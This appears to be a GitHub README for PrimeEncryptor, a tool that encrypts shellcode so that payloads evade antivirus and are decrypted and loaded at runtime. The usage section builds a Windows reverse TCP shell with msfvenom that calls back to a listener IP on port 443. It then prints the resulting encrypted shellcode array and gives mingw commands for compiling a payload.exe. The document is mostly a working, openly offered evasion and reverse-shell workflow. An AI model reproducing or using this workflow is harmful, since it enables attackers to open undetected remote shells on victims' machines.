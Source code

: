 # ♎ **PrimeEncryptor**

**PrimeEncryptor**  is a flexible Dynamic Shellcode Encryptor designed to generate encrypted shellcode using multiple encryption techniques. This tool creates encrypted .bin files, which can be embedded in the resource section of an executable. During runtime, the executable dynamically decrypts and loads the shellcode, helping bypass antivirus and security solutions by evading detection. The encrypted payloads are decrypted at runtime via a loader.

Additionally, PrimeEncryptor provides sample C++ code snippets that give you the necessary functions to load the encrypted shellcode directly from the resource segment of the executable. These code snippets simplify the process of embedding and dynamically loading the shellcode, ensuring efficient execution while maintaining stealth.

---

<p align="center">
  <img src="">
</p>

# ✔️ **Installation**

Clone the repository and set up the environment.

### **Installation**
```bash
git clone https://github.com/dagowda/PrimeEncryptor.git
cd PrimeEncryptor
sudo apt-get update
sudo apt-get install -y mingw-w64
pip3 install pycryptodome
```

---

# ⚙️ **Usage**

Make sure the necessary dependencies are istalled:

```bash
➜  PrimeEncryptor msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.222.129 LPORT=443 -f raw >payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes

➜  PrimeEncryptor python3 PrimeEncyptor.py payload.bin 

  
                                                                                                                         
██████╗ ██████╗ ██╗███╗   ███╗███████╗    ███████╗███╗   ██╗ ██████╗██████╗ ██╗   ██╗██████╗ ████████╗ ██████╗ ██████╗   
██╔══██╗██╔══██╗██║████╗ ████║██╔════╝    ██╔════╝████╗  ██║██╔════╝██╔══██╗╚██╗ ██╔╝██╔══██╗╚══██╔══╝██╔═══██╗██╔══██╗  
██████╔╝██████╔╝██║██╔████╔██║█████╗      █████╗  ██╔██╗ ██║██║     ██████╔╝ ╚████╔╝ ██████╔╝   ██║   ██║   ██║██████╔╝  
██╔═══╝ ██╔══██╗██║██║╚██╔╝██║██╔══╝      ██╔══╝  ██║╚██╗██║██║     ██╔══██╗  ╚██╔╝  ██╔═══╝    ██║   ██║   ██║██╔══██╗  
██║     ██║  ██║██║██║ ╚═╝ ██║███████╗    ███████╗██║ ╚████║╚██████╗██║  ██║   ██║   ██║        ██║   ╚██████╔╝██║  ██║  
╚═╝     ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═══╝ ╚═════╝╚═╝  ╚═╝   ╚═╝   ╚═╝        ╚═╝    ╚═════╝ ╚═╝  ╚═╝  
                                                                                                                         
................................................                                                                         
                      Encryptor function creator                                                                         
---------------------------------------------------------                                                                
Created by Dhanush Gowda(dagowda)                                                                                        
---------------------------------------------------------                                                                
................................................                                                                                                                                                                                                  
                                                                                                                         
Please select the encryption type:                                                                                       
1.)AES encryption                                                                                                        
2.)rot20                                                                                                                 
3.)rc4 encryption                                                                                                        
>2                                                                                                                       
unsigned char ciphertext[] = {0x10,0x5c,0x97,0xf8,0x04,0xfc,0xd4,0x14,0x14,0x14,0x55,0x65,0x55,0x64,0x66,0x65,0x6a,0x5c,0x45,0xe6,0x79,0x5c,0x9f,0x66,0x74,0x5c,0x9f,0x66,0x2c,0x5c,0x9f,0x66,0x34,0x5c,0x9f,0x86,0x64,0x5c,0x23,0xcb,0x5e,0x5e,0x61,0x45,0xdd,0x5c,0x45,0xd4,0xc0,0x50,0x75,0x90,0x16,0x40,0x34,0x55,0xd5,0xdd,0x21,0x55,0x15,0xd5,0xf6,0x01,0x66,0x55,0x65,0x5c,0x9f,0x66,0x34,0x9f,0x56,0x50,0x5c,0x15,0xe4,0x9f,0x94,0x9c,0x14,0x14,0x14,0x5c,0x99,0xd4,0x88,0x7b,0x5c,0x15,0xe4,0x64,0x9f,0x5c,0x2c,0x58,0x9f,0x54,0x34,0x5d,0x15,0xe4,0xf7,0x6a,0x5c,0x13,0xdd,0x55,0x9f,0x48,0x9c,0x5c,0x15,0xea,0x61,0x45,0xdd,0x5c,0x45,0xd4,0xc0,0x55,0xd5,0xdd,0x21,0x55,0x15,0xd5,0x4c,0xf4,0x89,0x05,0x60,0x17,0x60,0x38,0x1c,0x59,0x4d,0xe5,0x89,0xec,0x6c,0x58,0x9f,0x54,0x38,0x5d,0x15,0xe4,0x7a,0x55,0x9f,0x20,0x5c,0x58,0x9f,0x54,0x30,0x5d,0x15,0xe4,0x55,0x9f,0x18,0x9c,0x5c,0x15,0xe4,0x55,0x6c,0x55,0x6c,0x72,0x6d,0x6e,0x55,0x6c,0x55,0x6d,0x55,0x6e,0x5c,0x97,0x00,0x34,0x55,0x66,0x13,0xf4,0x6c,0x55,0x6d,0x6e,0x5c,0x9f,0x26,0xfd,0x6b,0x13,0x13,0x13,0x71,0x5d,0xd2,0x8b,0x87,0x46,0x73,0x47,0x46,0x14,0x14,0x55,0x6a,0x5d,0x9d,0xfa,0x5c,0x95,0x00,0xb4,0x15,0x14,0x14,0x5d,0x9d,0xf9,0x5d,0xd0,0x16,0x14,0x15,0xcf,0xd4,0xbc,0xf2,0x95,0x55,0x68,0x5d,0x9d,0xf8,0x60,0x9d,0x05,0x55,0xce,0x60,0x8b,0x3a,0x1b,0x13,0xe9,0x60,0x9d,0xfe,0x7c,0x15,0x15,0x14,0x14,0x6d,0x55,0xce,0x3d,0x94,0x7f,0x14,0x13,0xe9,0x64,0x64,0x61,0x45,0xdd,0x61,0x45,0xd4,0x5c,0x13,0xd4,0x5c,0x9d,0xd6,0x5c,0x13,0xd4,0x5c,0x9d,0xd5,0x55,0xce,0xfe,0x23,0xf3,0xf4,0x13,0xe9,0x5c,0x9d,0xdb,0x7e,0x24,0x55,0x6c,0x60,0x9d,0xf6,0x5c,0x9d,0x0d,0x55,0xce,0xad,0xb9,0x88,0x75,0x13,0xe9,0x5c,0x95,0xd8,0x54,0x16,0x14,0x14,0x5d,0xcc,0x77,0x81,0x78,0x14,0x14,0x14,0x14,0x14,0x55,0x64,0x55,0x64,0x5c,0x9d,0xf6,0x6b,0x6b,0x6b,0x61,0x45,0xd4,0x7e,0x21,0x6d,0x55,0x64,0xf6,0x10,0x7a,0xdb,0x58,0x38,0x68,0x15,0x15,0x5c,0xa1,0x58,0x38,0x2c,0xda,0x14,0x7c,0x5c,0x9d,0xfa,0x6a,0x64,0x55,0x64,0x55,0x64,0x55,0x64,0x5d,0x13,0xd4,0x55,0x64,0x5d,0x13,0xdc,0x61,0x9d,0xd5,0x60,0x9d,0xd5,0x55,0xce,0x8d,0xe0,0x53,0x9a,0x13,0xe9,0x5c,0x45,0xe6,0x5c,0x13,0xde,0x9f,0x22,0x55,0xce,0x1c,0x9b,0x31,0x74,0x13,0xe9,0xcf,0x04,0xc9,0xb6,0x6a,0x55,0xce,0xba,0xa9,0xd1,0xb1,0x13,0xe9,0x5c,0x97,0xd8,0x3c,0x50,0x1a,0x90,0x1e,0x94,0x0f,0xf4,0x89,0x19,0xcf,0x5b,0x27,0x86,0x83,0x7e,0x14,0x6d,0x55,0x9d,0xee,0x13,0xe9};                                                                                         
resources.rc and rot20.bin has been created                                                                              
TO COMPILE:                                                                                                              
"x86_64-w64-mingw32-windres resources.rc -O coff -o resources.res"                                                       
"x86_64-w64-mingw32-g++ --static -o payload.exe rot20.cpp resources.res -lws2_32 -lshlwapi -fpermissive"
```

---

## 📄 **Notes**
- Ensure you have **Python 3.8+** installed.
- Run the commands in a terminal with the required permissions.


![image_alt](https://github.com/dagowda/PrimeEncryptor/blob/ca37a805b9147f16fc9f8e1c92f4c76e234a0d22/images/screenshot2.png) 
